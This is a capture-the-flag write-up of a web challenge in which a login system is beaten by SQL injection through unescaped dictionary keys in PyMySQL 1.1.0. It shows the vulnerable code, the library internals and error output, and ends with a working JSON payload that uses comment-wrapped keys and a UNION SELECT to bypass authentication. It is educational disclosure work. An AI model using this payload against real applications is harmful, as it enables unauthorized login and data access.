 UBook: Web - viennabootcamp 2024 (0 solve, upsolved)
===
Upsolved challenge during a bootcamp with some european national teams 
## The challenge
The challenge is a login system. Login as admin gives you the FLAG.
Seems it doesn't 
## Interesting points
### Unserialize
The challenge have a `safe_unserialize` function to manage the json request
```python
def safe_unserialize(obj: any) -> any:
    """Unpickle the object safely. Thx copilot <3"""
    if isinstance(obj, dict):
        return {User.to_user(k): safe_unserialize(v) for k, v in obj.items()}
    elif isinstance(obj, list):
        return [safe_unserialize(v) for v in obj]
    elif isinstance(obj, str):
        return User.to_user(obj)
    else:
        return obj

```
### User class
This is the user class
```python
class User:
    """User class to handle user data."""
    def __init__(self, name: str, password: str, country: str):
        self.name = name
        self.password = password
        self.country = country

    def get(self, attr: str) -> str:
        return getattr(self, attr, None)

    def __repr__(self) -> str:
        return f'{self.name},{self.country}'
    
    def __str__(self) -> str:
        return f'{self.name},{self.country}'
    
    @staticmethod
    def to_user(s: str) -> 'User':
        # we don't want XSS, so we allow only safe symbols here
        return User(*s.split(',')) if re.match('^[\/\w:\.^\*@]{4,10},[\/\w:\.^\*@]{7,},[A-Z]{2}$', s) else s
```
### Query
All query are done by this function (using PyMySQL==1.1.0)
```python
def query_handler(sql, cur, params=[]):
    try:
        cur.execute(sql, params)
    except Exception as e:
        cur.close()
        app.logger.critical(e)
        abort(500)
    
    return cur
```

Login Query:
```python
[...]
QUERY_GET = "SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = %s)"
[...]
cur = query_handler(QUERY_GET, cur, (user,))
[...]
```
## Exploit
So we have to do a SQLi of course but how? Every query is prepared.

Let me check the lib:

This is the `mogrify` function for escape
```python
def mogrify(self, query, args=None):
    conn = self._get_db()

    if args is not None:
        query = query % self._escape_args(args, conn)

    return query
```

So... this is not a real prepared query. Let's see the `_escape_args` function

```python
def _escape_args(self, args, conn):
    if isinstance(args, (tuple, list)):
        return tuple(conn.literal(arg) for arg in args)
    elif isinstance(args, dict):
        return {key: conn.literal(val) for (key, val) in args.items()}
    else:
        # If it's not a dictionary let's try escaping it anyways.
        # Worst case it will throw a Value error
        return conn.escape(args)
```

Oh
return `{key: conn.literal(val) for (key, val) in args.items()}`

The key are not escaped!!!! (after CTF the author(@lavish) links the [advisor](https://github.com/PyMySQL/PyMySQL/releases/tag/v1.1.1), not found during event :/ )

So if we send this payload we have a syntax error (we can send any json object of course):
```json
[{
    "user":"aaaaa",
    "password":"aaaaa",
    "country":"aaaa"
}]
```
```
(1064, 'You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near \'\'user\': "\'aaaaa\'", \'password\': "\'aaaaa\'", \'country\': "\'aaaa\'"})\' at line 1')
```

Okay, obv the curly brackets :(

After a ***big*** amount of hours of search on the internet, the query `mysql syntax curly brackets` I landend to this page [https://dev.mysql.com/doc/refman/8.4/en/expressions.html](https://dev.mysql.com/doc/refman/8.4/en/expressions.html)

Yes, yes, yes i'm noob in google search

## Final Payload

The `__repr__` of user help us to remove the quotes. So start from this

```json
{
    "aaaa,aaaaaaa,AA": null
}
```

```sql
SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = {aaaa,AA: 'NULL'})
```

We need some comments for the commas

```json
{
    "aa/*aa,aaaaaaa,AA": null,
    "*/": null
}
```
```sql
SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = {aa/*aa,AA: 'NULL', '*/': 'NULL'})
```

YES! Null is an SQL key and not a string. Let's pull all togheter

```json
{
"aa/*aa,aaaaaaa,AA":null,
"*/":"}) UNION SELECT 1,1,SHA2(1,256),1,1 -- ",
"password":"1"
}
```

Enjoy!!!



